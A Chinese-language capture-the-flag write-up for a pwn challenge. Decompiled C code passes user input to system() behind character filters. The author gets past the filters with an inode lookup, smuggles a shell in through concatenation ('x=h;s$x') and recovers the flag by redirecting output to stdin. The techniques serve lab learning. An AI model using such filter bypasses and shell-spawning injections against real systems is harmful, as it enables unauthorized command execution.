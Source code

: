 ### 分析代码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s1; // [rsp+0h] [rbp-90h]
  char buf; // [rsp+40h] [rbp-50h]
  unsigned __int64 v6; // [rsp+88h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  init();
  memset(&buf, 0, 0x40uLL);
  getcwd(&buf, 0x40uLL);
  puts("where are you?");
  read_n(&s1, 64u);
  if ( strcmp(&s1, &buf) )
  {
    puts("nonono,not there");
    exit(0);
  }
  read_n(&s1, 20u);
  if ( check2(&s1) == -1 )
  {
    puts("oh,it's not good idea");
    exit(0);
  }
  close(1);
  close(2);
  system(&s1);
  return 0;
}
```

```c
unsigned __int64 init()
{
  int rand_pos; // [rsp+4h] [rbp-51Ch]
  int i; // [rsp+8h] [rbp-518h]
  int fd; // [rsp+Ch] [rbp-514h]
  int buf[52]; // [rsp+10h] [rbp-510h]
  char dir_list[1008]; // [rsp+E0h] [rbp-440h]
  char new_dir; // [rsp+4D0h] [rbp-50h]
  char command; // [rsp+4F0h] [rbp-30h]
  unsigned __int64 v8; // [rsp+518h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(_bss_start, 0LL);
  fd = open("/dev/urandom", 0);
  rand_pos = 0;
  read(fd, &rand_pos, 1uLL);
  rand_pos %= 50;
  if ( fd < 0 )
    exit(-1);
  chdir("./tmp");
  for ( i = 0; i <= 49; ++i )
  {
    read(fd, &buf[i], 4uLL);
    snprintf(&dir_list[20 * i], 0x14uLL, "0x%x", buf[i]);
    mkdir(&dir_list[20 * i], 0x1EDu);
  }
  snprintf(&new_dir, 0x16uLL, "./%s", &dir_list[20 * rand_pos]);
  chdir(&new_dir);
  puts("find yourself");
  read_n(&command, 25u);
  if ( check1(&command) != -1 )
    system(&command);
  return __readfsqword(0x28u) ^ v8;
}
```

- 在/tmp/目录下创建50个文件夹，文件名随机，然后随机切换到一个文件夹中
- 一次执行`system(cmd1)`的机会，字符过滤规则为`check1`
- 随后，要输入正确的工作目录
- 又有一次执行`system(cmd2)`的机会，字符过滤规则为`check2`
- 但是这次执行`system`前关闭了`stdout`和`stderr`

### check1

 - 允许的字符：
	```c
    a b c d e f g h i j k l m n o p q r s t u v w x y z
    A B C D E F G H I J K L M N O P Q R S T U V W X Y Z
    /   -
   ```
 - 过滤的字符串
    ```c
    sh
    cat
    flag
    pwd
    export
    ```
    

- docker中能利用的命令不多，除了被过滤的`cat` 和`sh`之外，还有 `ls` 和`cd`

- `cd -`可以输出`OLD_PWD`，也就是`/`，但是并无有神马用处

- `ls`可以虽然可以输出当前路径下的文件名，但是题目中对比的是绝对路径

- 看了下`ls --help`，发现可以利用`ls -ali`，输出当前目录文件`.`的`inode`，记做`inodeX`好啦

- `inode`是唯一的，于是再开一个`shell`，`ls -alh /tmp`查看`/tmp/`下的所有文件名及`inode`

- 根据`inodeX`，即可找到正确的目录名

  ```shell
  # shell 1
  % nc 47.103.214.163 21000
  find yourself
  ls -ali
  total 8
  1968846 drwxr-xr-x   2 1000 1000 4096 Jan 27 12:50 .
  1968682 drwxrwxrwx 152    0    0 4096 Jan 27 12:50 ..
  where are you?
  ```

  ```shell
  # shell 2
  % nc 47.103.214.163 21000 | grep 1968846
  ls -ali /tmp
  1968846 drwxr-xr-x   2 1000 1000 4096 Jan 27 12:50 0x8eb79f31
  ```

  ```shell
  # shell 1
  % nc 47.103.214.163 21000
  find yourself
  ls -ali
  total 8
  1968846 drwxr-xr-x   2 1000 1000 4096 Jan 27 12:50 .
  1968682 drwxrwxrwx 152    0    0 4096 Jan 27 12:50 ..
  where are you?
  /tmp/0x8eb79f31
  ```

### check2

- 过滤的字符(串)

  ```c
  sh cat * & | > <
  ```

- 这个简单多了，字符串拼接即可绕过

  ```shell
  x=h;s$x
  ```


### close(1) and close(2)

- 关闭了`stdout`和`stderr`，即使`cat flag`也得不到输出`u_u`

- 于是，重定向，把`stdout`和`stderr`重定向到`stdin`

  ```shell
  cat /flag 1>&0
  ```

### fini

- 这题在`check1`卡了好久，第三天才想到`ls -i`，我太菜了。


